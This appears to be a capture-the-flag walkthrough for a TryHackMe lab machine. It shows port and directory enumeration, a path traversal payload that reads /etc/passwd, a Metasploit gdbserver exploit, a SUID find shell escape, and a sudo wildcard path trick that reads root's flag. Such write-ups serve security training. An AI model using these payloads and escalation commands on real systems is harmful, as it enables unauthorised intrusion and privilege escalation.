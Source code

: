 <code>
  
https://tryhackme.com/r/room/airplane  

### Service Enumeration
┌──(duke㉿kali)-[~/Documents/THM_AirPlane]
└─$ nmap  -sV -p- -Pn 10.10.128.237
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-13 03:08 CDT
Nmap scan report for 10.10.128.237
Host is up (0.039s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
6048/tcp open  x11?
8000/tcp open  http-alt Werkzeug/3.0.2 Python/3.8.10

http://airplane.thm:8000/?page=index.html

┌──(duke㉿kali)-[~/Documents/THM_AirPlane]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://airplane.thm:8000 -x php,txt,html -k
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
[+] Url:                     http://airplane.thm:8000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
2024/06/13 03:20:15 Starting gobuster in directory enumeration mode
/airplane             (Status: 200) [Size: 655]

### Found Path Traversal 
http://airplane.thm:8000/?page=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

carlos:x:1000: nothing
hudson:x:1001: get some files from home folder

### Initial Access
I found out that there is an exploit available for gdbserver, so I used the Metasploit exploit multi/gdb/gdb_server_exec. and fill all required options.

get shell as Hudson

run linpeas and

### Priv Esc
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                    
-rwsr-xr-x 1 carlos carlos 313K Feb 18  2020 /usr/bin/find     


hudson@airplane:/$ ./usr/bin/find . -exec /bin/sh -p \; -quit
./usr/bin/find . -exec /bin/sh -p \; -quit
$ id
id
uid=1001(hudson) gid=1001(hudson) euid=1000(carlos) groups=1001(hudson)

Have access to hudson home folder create own ssh key get full ssh access as **carlos**

### Priv Esc to root

carlos@airplane:/usr/bin$ sudo -l
Matching Defaults entries for carlos on airplane:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
    (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb

**Folders /Root  and /usr/bin/ruby are ofcorse locked for write**
 
 ### Wildcard Exploiting

carlos@airplane:**/home/carlos/**$ echo "puts File.read('/root/root.txt')" > x.rb

carlos@airplane:$ sudo /usr/bin/ruby **/root/../home/carlos/x.rb**


</code>
